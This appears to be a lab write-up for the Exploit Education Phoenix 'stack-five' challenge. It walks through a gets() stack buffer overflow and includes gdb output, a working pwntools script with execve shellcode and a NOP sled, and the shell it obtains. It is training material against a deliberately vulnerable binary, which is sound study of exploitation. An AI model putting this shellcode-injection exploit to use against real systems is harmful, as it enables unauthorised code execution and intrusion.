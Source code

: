 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Stack Five"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

Here we don't have any function to jump to but we have a buffer large enough to fit a shellcode.

The idea is to put our shellcode in **buffer** and return execution to it.

So we have to enter: (shellcode + junk to fill the buffer + 8 bytes for RBP + RIP with the address of the buffer).

When dealing with shellcode it's a good idea to unset some environment variables that gdb adds them to jump to the right address.

```
$ gdb -q /opt/phoenix/amd64/stack-five
Reading symbols from /opt/phoenix/amd64/stack-five...(no debugging symbols found)...done.

gef➤  unset env LINES
gef➤  unset env COLUMNS
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    
```

Buffer size if 0x80 = 128 bytes.

Now we put a breakpoint at **gets** function to get the address of buffer.

```
gef➤  b *0x000000000040059c
Breakpoint 1 at 0x40059c

gef➤  r
Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x000000000040059c in start_level ()

gef➤  print $rbp-0x80
$1 = (void *) 0x7fffffffe5d0
```

Buffer address at 0x7fffffffe5d0.

Now we have all the pieces to write the exploit.

You can find a lot of shellcode at **http://shell-storm.org/shellcode**.

It's always good to add some NOP instructions before the shellcode to add some flexibility with the exact address of the buffer (NOP is no operation instruction, it does nothing so it's useful to fill gaps).

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90'*30			# NOP Sled
buff += shellcode			# shellcode
buff += 'A'* (128 - len(buff))		# junk
buff += 'BBBBBBBB'			# RBP value
buff += p64(0x7fffffffe5d0)		# RIP value (buffer address)

print(buff)
```

Wee need to chain our script with **cat** command to avoid closing the input stream.

```
$ (python solve.py; cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
phoenix-amd64-stack-five
```

